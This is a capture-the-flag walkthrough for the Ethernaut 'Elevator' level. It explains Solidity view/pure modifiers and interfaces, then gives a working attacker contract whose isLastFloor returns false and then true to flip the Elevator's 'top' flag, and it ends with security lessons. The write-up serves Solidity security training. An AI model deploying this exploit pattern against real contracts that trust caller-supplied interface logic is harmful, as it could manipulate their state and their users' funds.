

# Level 11 : Elevator

**Ethernaut Level 11 : building**

`pure`and `view` are built-in **state modifiers**. They “promise” *how* functions will interact with data on Ethereum blockchain, i.e. the *state*

- `pure`: promises functions that will **neither read from nor modify the state**. Note: Pure replaces `constant` in more recent compilers.
- `view`: promises functions that will **only read, but not modify the state**
- `default`: [no modifier] promises functions that **will read and modify the the state**



**Interfaces** allow different contract classes to talk to each other.

Think of interfaces as [an ABI (or API) declaration](https://hackernoon.com/ethernaut-lvl-0-walkthrough-abis-web3-and-how-to-abuse-them-d92a8842d71b) that forces contracts to all communicate in the same language/data structure. But interfaces do not prescribe the logic inside the functions, leaving the developer to implement his own business layer.

To pass this level, we have to make this check **first** **return true and then return false** within a single `goTo()` function call:

```solidity
// 1st check has to return false
if (! building.isLastFloor(_floor)) {
    floor = _floor;
		// 2nd check has to return true
		top = building.isLastFloor(floor);  //winning statement
}
```

The two interesting lines are here : 

```solidity
Building building = Building(msg.sender); // our contract is called to create "building"
if (! building.isLastFloor(_floor)) // our contract is called for the function isLastFloor not implemented here --> we can use this
```

Notice Elevator.sol never implemented the `isLastFloor()` function from the Building interface.

This means we can create a malicious contract called Building that implements this function. Then, when building.isLastFloor is call we can invoke goto() from our malicious contract.

⇒ our version of the `isLastFloor` function will be used *in the context of our level’s Elevator.sol instance*!

Solution : 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Building {
    Elevator public el = Elevator(0xf73ca0083eF87879b673893C542497d58D270428);
    bool public switchFlipped = false;
    function hack() public{
        el.goTo(1);
    }
    function isLastFloor(uint) public returns (bool){
        //Check 1
        if (! switchFlipped){
            switchFlipped=true;
            return false;
        } else {
            switchFlipped=false;
            return true;
        }
    }
}

contract Elevator {
  bool public top;
  uint public floor;
  function goTo(uint _floor) public {
    Building building = Building(msg.sender);
    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

- **Interfaces do not guarantee contract security. Remember that just because another contract uses the same interface, doesn’t mean it will behave as intended!**
- **Be careful when inheriting contracts that extend from interfaces. Each layer of abstraction introduces security issues through information obscurity. This makes each generation of the contract less and less secure than the previous.**
- **Watch out for the compiler version you are using or inheriting from. `View` and `pure` promises might be violated without you knowing!**

> “Solidity compiler does nothing to enforce that a view or constant function is not modifying state. The same applies to pure functions, which should not read state but they can”
>